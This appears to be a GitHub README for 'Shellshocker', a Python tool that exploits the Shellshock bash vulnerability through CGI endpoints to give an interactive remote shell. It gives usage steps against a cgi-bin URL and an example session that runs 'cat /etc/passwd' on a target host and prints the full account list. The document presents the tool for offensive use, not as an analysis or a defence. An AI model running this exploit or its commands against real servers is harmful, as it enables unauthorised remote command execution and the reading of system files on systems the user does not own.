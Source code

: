 # Shellshocker
Shellshock easily exploitation

When you find Shellshock / Bashbug vulnerability and want the easiest way to use it, you can use "Shellshocker".
Avoid tinkering with the user-agent and feels like a shell directly.
Shellshocker suggests to avoid user-agent spoofing on-hand. In contrast to that it has a nice shell-interface.

Using:
  1. Run the script with python: "python shellshocker.py http://exam.com/cgi-bin/cat"


  2. Hit command and press enter: "cat /etc/passwd"


  3. Read the output :)


Example:

/shellshoker$ python shellshoker.py http://10.0.0.12:591/cgi-bin/cat

Shellshock Command: cat /etc/passwd


root:x:0:0:root:/root:/bin/bash

bin:x:1:1:bin:/bin:/sbin/nologin

daemon:x:2:2:daemon:/sbin:/sbin/nologin

adm:x:3:4:adm:/var/adm:/sbin/nologin

lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin

sync:x:5:0:sync:/sbin:/bin/sync

shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown

halt:x:7:0:halt:/sbin:/sbin/halt

mail:x:8:12:mail:/var/spool/mail:/sbin/nologin

uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin

operator:x:11:0:operator:/root:/sbin/nologin

games:x:12:100:games:/usr/games:/sbin/nologin

gopher:x:13:30:gopher:/var/gopher:/sbin/nologin

ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin

nobody:x:99:99:Nobody:/:/sbin/nologin

vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin

saslauth:x:499:76:"Saslauthd user":/var/empty/saslauth:/sbin/nologin

postfix:x:89:89::/var/spool/postfix:/sbin/nologin

sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin

bynarr:x:500:501::/home/bynarr:/bin/bash

apache:x:48:48:Apache:/var/www:/sbin/nologin

apophis:x:501:502::/home/apophis:/bin/bash
